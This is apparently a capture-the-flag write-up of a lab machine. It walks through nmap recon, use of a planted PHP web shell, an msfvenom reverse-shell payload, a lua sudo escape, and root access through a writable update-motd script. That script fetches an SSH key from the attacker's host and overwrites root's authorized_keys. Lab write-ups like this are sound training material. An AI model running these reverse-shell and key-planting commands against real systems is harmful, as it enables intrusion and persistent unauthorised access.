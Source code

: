 As always, we start with nmap - it comes back with ports 80 and 22 open, so naturally we go check out the web page.

Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-09 12:10 EDT
Nmap scan report for 10.10.10.181
Host is up (0.036s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

![websiteLanding](https://github.com/DefinitelyNotDex/imageURLgoesHere)

Initially, my assumption was to jump into dirb or gobuster and try to enumerate where the mentioned backdoor might be, but that doesn't get us anything here.
Instead, hitting 'view page source' gives us this comment:

![websiteComment](https://github.com/DefinitelyNotDex/imageURLgoesHere)

If we google that phrase we get a Github page where the author is the same user who owned the site. 
Scrolling down the list of web shells, we can throw all of them into the end of the URL until one works for us.
If we also click on the Github link for that particular shell we get a set of default creds, which work nicely.

![webShell](https://github.com/DefinitelyNotDex/imageURLgoesHere)

Wonderful, we have a web shell. This shell is fully functional and you can use it to priv-esc to the actual user with minimal issues. I didn't want to deal with it, though, so I compiled my own php shell with msfvenom, uploaded it, set up a metasploit handler to catch the connection, accessed my shell url, and used that shell going forward:

>**msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php**

Once we have this shell, time to enumerate. You can do this manually, but to save time I used the linux enumeration script found [here](https://github.com/diego-treitos/linux-smart-enumeration), using wget to download the script directly to the machine:

>**wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh**

Running that script shows us that we have a command we're allowed to run as sudo, /home/sysadmin/luvit. If we also take a look at our home directory we have a file called note.txt which explains the sysadmin left us a way to mess around with lua, which is presumably that file. We can run the file with the following command:

>**sudo -u sysadmin /home/sysadmin/luvit**

Running it, however, gets us an error. Specifically, we get a *traceback* error that the script tries to call a method that doesn't exist. Going by the name of the machine, we're on the right track.

![luvitError](https://github.com/DefinitelyNotDex/imageURLgoesHere)

Combing that output from the traceback might not give you much at first glance, but when I tried to throw the output of running luvit into a text file I noticed the error message was not included. What was included at the end of the file was a carrot character, which indicated to me that this might be the lua interpreter, similar to the python interpreter. Therefore, we might be able to pass it a command or script, which ended up working. I used [this](https://justhack.in/shell-escapes-cheatsheet) link to grab a very easy shell escape script, which I uploaded to the host, appended with the same luvit command, and ran:

>**sudo -u sysadmin /host/sysadmin/luvit shell.lua**

This got me a functional bash shell for the sysadmin user, but it was still coming through the webadmin user's meterpreter shell, which was a pain. I generated a second shell, this time just a standard linux reverse tcp meterpreter shell, uploaded it, created a new handler to catch the shell, and ran it as the sysadmin user to get a sysadmin meterpreter shell.

Now we have an actual user shell and can grab the user flag. 
Running the same linux enumeration script we used above shows that we can access and *write* to the /etc/.update-motd.d/ files, which are bash scripts that generate the welcome message when someone ssh's into the server. There is a script on this box that constantly overwrites them with the defaults, so we'll have to be fast when we use those to priv esc to root. To do so, we'll have to modify them, then immediately ssh into this host in order for the .update-motd.d script to run. 

Going back to the initial webadmin shell, we are able to navigate to /home/webadmin/.ssh and edit the authorized_keys file, which is the file that stores the public ssh key. We can then ssh back to the host as webadmin using the corresponding private key.

To do this, I used ssh-keygen to create the key pair on my local kali machine, dropped the public key into /home/webadmin/.ssh, and copied its contents into the authorized_keys file. Once that was done, I tested that I was able to ssh to the host as webadmin, and we're ready to exploit the .update-motd.d scropt. 

Since the etc/.upload-motd.d files are quickly overwritten (they're maybe there for 5-15 seconds before going back to the original set) I couldn't upload a reverse shell, as it would die rather quickly. What we can do as root, though, is add another set of ssh keys so we can just ssh to the box as root. To do so, we need to replace the motd file and ssh into the box as webadmin to execute the script before it is overwritten. Multiple shell windows queued and ready to go helps here. I hosted the directory with the ssh keys using python's SimpleHTTPServer, and grabbed them with the bash script that we replaced the motd header with:

Local machine (from the directory with the bash script '00-header' inside):
>**python -m SimpleHTTPServer 80**

Bash script:

>**#!/bin/sh
wget http://10.10.14.4/root-key-rsa.pub -P /root/.ssh
cat /root/.ssh/root-key-rsa.pub > /root/.ssh/authorized_keys**

Sysadmin shell:

>**meterpreter>upload 00-header /etc/.update-motd.d/00-header  
meterpreter> cat 00-header**

(that cat is to confirm 00-header is the correct file and hasn't been immediately overwritten)

Local machine (separate shell window)

>**ssh -i ./webadmin-rsa-key webadmin@10.10.10.181**

As long as the sysadmin shell command and the ssh command were done closely enough together and in sequence, the root ssh key overwrite works well. Now we can just ssh back to the host as root using that new ssh key, grab the root flag, and finish this box off entirely

>**ssh -i ./root-key-rsa root@10.10.10.181**
